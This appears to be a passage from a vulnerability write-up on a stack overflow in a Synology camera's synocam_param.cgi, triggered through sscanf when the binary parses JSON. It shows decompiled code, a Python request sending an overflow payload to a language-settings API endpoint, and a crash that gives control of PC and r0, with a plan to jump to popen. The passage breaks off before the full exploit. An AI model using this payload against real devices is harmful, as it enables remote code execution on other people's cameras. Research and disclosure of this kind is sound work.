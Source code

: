 Placing a breakpoint at the call to the `call_ptr` function, reveals that the pointer passed to it is exactly 0x84 bytes after our second string. (the one after the space).

here is the call of the function:
`v8 = (*(int (__fastcall **)(_DWORD))a1)(*(_DWORD *)(a1 + 4));`

a1 points to our input after 0x84 bytes, so we can set it to any value we want.

Then, after that pointer there will be a pointer to the parameter of that function.

Lets check that our. I sent this following json object:

```
  payload = b'{"' + b"A" * 8 +  b" " + b"B" * (0x84) + b"I" * 4 + b"J" * 4 + b'": "BBBB"}'
  print(payload)
  r = requests.post(f"{HOST}/syno-api/security/info/language", headers={'Content-Type':'application/json'}, data=payload)
```

And we can see a really promising crash:

![Alt text](image-17.png)

We can control r0, which is the parameter to the function, and PC.

Now, please notice that since ASLR is enabled, we can only jump to gadgets inside the `synocam_param.cgi` binary. lucily for us, there is already interseting function there, like `popen`, which we can jump to.

One problem though is that all addresses in the binary itself will be just 3 bytes.

Since the overflow has occured with the sscanf function, when reading nullbyte it will stop, and won't continue writing the remaining of our buffer, which is the pointer to the function.

How can we overcome this?

Lets not forget that the sscanf function overflows two strings!

```c
int __fastcall parse_json_object(_DWORD *a1, char a2, int a3)
{
  int v4; // r0
  char buf1[32]; // [sp+14h] [bp-40h] BYREF
  char buf2[12]; // [sp+34h] [bp-20h] BYREF

  ...

  _isoc99_sscanf((char *)json_key, "%s %s", buf1, buf2);

  ...
}
```
We can do a really clever trick. 

